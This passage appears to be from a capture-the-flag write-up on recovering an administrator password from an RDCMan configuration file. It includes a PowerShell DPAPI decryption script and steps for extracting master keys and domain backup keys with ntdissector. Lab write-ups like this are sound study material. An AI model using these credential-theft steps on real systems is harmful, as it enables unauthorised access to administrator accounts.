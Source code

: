 Here `jnkeins.rdg` , is a file containing configuration settings for connecting to remote desktop sessions, this is configuration is for administrator 

<img src="https://i.imgur.com/KysuFYo.png"/>

From chatgpt I generated a ps script to decrypt the password but it didn't worked due to how the password is encrypted

```powershell
Add-Type -AssemblyName System.Security
function Unprotect-RDCManPassword {
    param (
        [Parameter(Mandatory=$true)]
        [string]$encryptedString
    )

    try {
        # Convert the base64 string to a byte array
        $bytes = [Convert]::FromBase64String($encryptedString)

        # Decrypt the byte array using DPAPI
        $decryptedBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($bytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)

        # Convert the decrypted byte array back to a string
        $decryptedString = [System.Text.Encoding]::Unicode.GetString($decryptedBytes)

        return $decryptedString
    } catch {
        Write-Error "Failed to decrypt password: $_"
    }
}

$encryptedPassword = "AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAABS0Gmx4U2k+bLUYfRpOl6wAAAAACAAAAAAADZgAAwAAAABAAAAAqvWFuXTLeCWvFNnkKjNDcAAAAAASAAACgAAAAEAAAAHHnv4NI9rTi06sCfSEy5hsoAAAAtCdIUjQfzQiJj363pO1RW/XSIlS/pMf/DBn3EHb8xEha6u1f/CMguhQAAACVsld41QgTZXMtLDfgrswQaShAxQ=="
$decryptedPassword = Unprotect-RDCManPassword -encryptedString $encryptedPassword

Write-Output "Decrypted Password: $decryptedPassword"
```

<img src="https://i.imgur.com/LCvjEqG.png"/>

So again taking a step back in jenkins's home directory, there was `AppData_Roaming_Backup.zip` , after extracting the archive, the path to master keys is in `./AppData/Roaming/Microsoft/Protect`

<img src="https://i.imgur.com/TVyaBED.png"/>

Using `ntdissector` , domain backup keys can be extracted, there will be a file named `secrets.json` contaning pvk value encoded in base64

<img src="https://i.imgur.com/tFWZhFl.png"/>
